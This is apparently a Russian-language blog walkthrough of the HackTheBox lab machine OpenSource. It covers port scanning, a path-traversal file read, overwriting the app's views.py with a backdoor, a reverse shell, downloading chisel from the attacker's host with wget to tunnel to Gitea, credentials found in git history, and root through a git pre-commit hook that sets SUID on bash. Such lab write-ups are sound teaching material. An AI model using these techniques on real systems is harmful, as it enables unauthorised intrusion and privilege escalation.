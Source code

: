 ```yaml
---
title: My CyberSanta2021 Walkthrough
tags: [ctf, hackthebox, web, machines]
date: 2022-11-28 20:00:00 +0300
categories: [HackTheBox, CTF, Machines]
icon: /assets/img/santa_anime.png
alttext: Some work I did
image:
  path: /assets/img/OpenSource/Banner.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Some Description
---
```



## Моё прохождение тачки OpenSource с HackTheBox

## Сканирование открытых портов

Первый этап сканирования – поиск всех открытых портов.

```bash
nmap -p- --min-rate=2000 -vvv -Pn 10.10.11.164
```

Было найдено 2 открытых порта:

```
22/tcp open  ssh
80/tcp open  http
```

Второй этап сканирование – более тщательное сканирование найденных открытых портов

```bash
nmap -p22,80 -A -Pn 10.10.11.164 -v
```

В более тщательном сканировании особо ничего интересного:

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug/2.1.2 Python/3.10.3
```

## Анализ веб-сервера на 80 порту

Приложение на 80 порту предлагает загрузить свои файлы, а также на главной странице есть ссылка на исходники приложения.

![Web1 | center](/assets/img/OpenSource/web1.png)

В исходниках находим интересный момент. При обращении к загруженному файлу, путь после директории `/_uploads/` передаётся в функцию `get_file_name()`, которая передаёт значение переменной `path` уже в функцию `recursive_replace()`. И после фильтрации структуры `“../”` переменная path передается в функцию `send_file()`, которая вызывает уязвимую функцию `os.path.join()`, особенность этой функции в том, что если один из аргументов этой функции является абсолютным путем, то есть имеет полный путь, то все идущие до него аргументы отбрасываются.

Код в файле _views.py_:
![Web2 | center](/assets/img/OpenSource/web2.png)
Функция _get_file_name()_ из файла _utils.py_:
![Web3 | center](/assets/img/OpenSource/web3.png)
Функция _recursive_replace()_ в файле _utils.py_:
![Web4 | center](/assets/img/OpenSource/web4.png)
Описание функции `os.path.join()` из документации:
![Web5 | center](/assets/img/OpenSource/web5.png)


Таким образом можно добиться, например такой уязвимости как LFI (Local File Inclusion). Так как контролируемая нами переменная является последней, то при передачи абсолютного пути файла, будет открыт именно этот файл. Обратимся к директории `/uploads/..//etc/passwd`, и получим файл `/etc/passwd`.
![Web6 | center](/assets/img/OpenSource/web6.png)

Дальнейшие попытки раскрутить эту **LFI** до **RCE** не увенчались успехом, и я обратил внимание, на то, что при загрузке файла есть точно такая же уязвимость, но мы уже контролируем переменную `file_name` (см. Figure 7), благодаря чему есть возможность перезаписывать текущие файлы. Значит план такой, загрузить свой файл с абсолютным путём – `/app/app/views.py`, добавив в конец новый путь, с бэкдором.

![Web7 | center](/assets/img/OpenSource/web7.png)

> _Примечание. При первых попытках грузить свой файл `/app/app/views.py` (который я изначально взял из скачанных исходников) ломал тачку, и я очень долго тупил и не понимал, что я делаю не так. Но потом прочитал текущий файл `/app/app/views.py` с помощью, продемонстрированной ранее LFI, и понял, что они немного отличаются :D_

## User flag


Дописываю в конец оригинального файла следующий код:

![Web8 | center](/assets/img/OpenSource/web8.png)

Перехватываем запрос с загрузкой файла с помощью Burp'a, и меняем название файла:

![Web9 | center](/assets/img/OpenSource/web9.png)

Теперь подымаем у себя локально слушатель (я использую команду `nc -lvnp 9999`) и в директории `/hollywarrior1-shell` в веб-приложении передаём в параметр `cmd` пейлоад с реверс шеллом. Пейлоад с реверс шеллом генерировал с помощью сайта – [https://www.revshells.com/](https://www.revshells.com/). Я использовал пейлоад Python3 #2. Передаём полезную нагрузку в параметр `cmd` и успешно получаем коннект:

![Web10 | center](/assets/img/OpenSource/web10.png)

Только оболочка сейчас неудобная и кривая. Для стабильной оболочки используем следующие команды:

```bash
python3 -c 'import pty;pty.spawn("/bin/sh")'
^Z
stty raw -echo; fg
*enter* *enter*
export TERM=xterm
```

Как показала изначальная разведка, мы находимся в докере, по следующим признакам:
- Наличие файла _“.dockerenv”_ в корневой директории
- Сетевой интерфейс с айпишником - 172.17.0.5 (когда айпишник тачки - 10.10.11.164)
- Текущий пользователь root
- Hostname - 745fb5da7690

Обычно из контейнера есть доступ к основному хосту, узнаем по какому айпишнику доступен основной хост с помощью команды `ip r`:

![Web11 | center](/assets/img/OpenSource/web11.png)

На тачке есть утилита `nc`, просканим открытые порты на хосте 172.17.0.1 с помощью неё. Команда будет следующая:
```bash
for i in `seq 0 65536`; do nc -zv 172.17.0.1 $i; done
```
Открыты следующие порты:
![Web12 | center](/assets/img/OpenSource/web12.png)


Путём ручного перебора открытых портов, узнаём, что на 3000 порту висит веб морда сервиса Gitea. А порты 6000-6007 копии 80 порта.
![Web13 | center](/assets/img/OpenSource/web13.png)

Так как доступ к `172.17.0.1:3000` есть только с этого хоста, чтобы нормально посмотреть и потыкаться в эту веб морду будем пробрасывать туннель с помощью инструмента _chisel_. Подымаем питон http сервер на своём локальном хосте, в директории с бинарником _chisel_ следующей командой:

```bash
python3 -m http.server 8888
```

Качаем на удалённом хосте с помощью команды wget:

```bash
wget http://10.10.16.19:8888/chisel -o /tmp/chisel
```

И делаем бинарник исполняемым:

```bash
chmod +x /tmp/chisel
```

Теперь на локальном хосте выполняем следующую команду:

```bash
./chisel server --reverse -port 1337
```

А на удалённом хосте:

```bash
./chisel client 10.10.16.19:1337 R:3000:172.17.0.1:3000
```

Теперь при обращении к локальному хосту на 3000-ый порт, все запросы будут туннелироваться на 3000-ый порт удалённой машины 172.17.0.1, а мостом выступает хост 172.17.0.5. Веб морда сервиса Gitea:

![Web14 | center](/assets/img/OpenSource/web14.png)

Находим, что на этом сервисе есть пользователь dev01. 
![Web15 | center](/assets/img/OpenSource/web15.png)

Попытки брута пароля, поиск публичных эксплойтов не дали своих плодов и на этом этапе я застрял. Застрял очень на долго...

Спустя большой промежуток времени решил в изначальных исходниках поискать хоть какие-то упоминания пользователя `dev01` (а вдруг). Перехожу в директорию с исходниками и обнаруживаю, что там есть директория “_.git_”. 
> _P.S. в первый раз её не увидел так как SublimeText при открытии директории по дефолту не показывает скрытые файлы. _

При виде этой директории первое, что хочется сделать, это посмотреть коммиты и логи изменений:
![Web16 | center](/assets/img/OpenSource/web16.png)

Перебирая все коммиты вручную по очереди (_да я пока не придумал способа лучше_), находим в предпоследнем креды для пользователя dev01:
![Web17 | center](/assets/img/OpenSource/web17.png)

Заходим на Gitea с этими кредами и в репозитории _home_backup_ скачиваем приватный ssh ключ пользователя dev01:
![Web18 | center](/assets/img/OpenSource/web18.png)

Меняем ключу права командой `chmod 600 id_rsa` и подключаемся по ssh за пользователя dev01 с помощью этого приватного ключа. И забираем флаг пользователя

![Web19 | center](/assets/img/OpenSource/web19.png)

## Root flag

Запуск тулзы [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) не дал результатов, поэтому запускаю [pspy64](https://github.com/DominicBreuker/pspy), чтобы отследить запускаемые процессы на системе в "live" режиме. И видим, что от рута запускается bash скрипт `git-sync`:
![Web20 | center](/assets/img/OpenSource/web20.png)

Посмотрим исходники скрипта:
![Web21 | center](/assets/img/OpenSource/web21.png)

Чуть-чуть погуглив, узнал о существовании гит хуков (git hooks). Так как у нас есть право на запись в директории `/home/dev01/` из которой выполняются команды в этом скрипте, можно создать так называемый "pre-commit hook", который исполнится перед командой `git commit`. Создаём этот хук и записываем в него полезную нагрузку, которая скопирует бинарь `/bin/bash` и присвоит ему бит SUID.
![Web22 | center](/assets/img/OpenSource/web22.png)

>_«Справка: бит `SUID`. Когда у файла установлен атрибут setuid (S-атрибут), обычный пользователь, запускающий этот файл, получает повышение прав до пользователя – владельца файла в рамках запущенного процесса. После получения повышенных прав приложение может выполнять задачи, которые недоступны обычному пользователю. Из‑за возможности состояния гонки многие операционные системы игнорируют S-атрибут, установленный shell скриптам.»_ — скопировано из райтапов RalfHacker ([Telegram](https://t.me/RalfHackerChannel) & [Xakep.ru](https://xakep.ru/author/ralfhacker/))

Теперь ждём пока рут снова запустит скрипт и выполнит наш хук. После чего забираем флаг рута:

![Web23 | center](/assets/img/OpenSource/web23.png)

---

![End | center](/assets/img/OpenSource/end.png)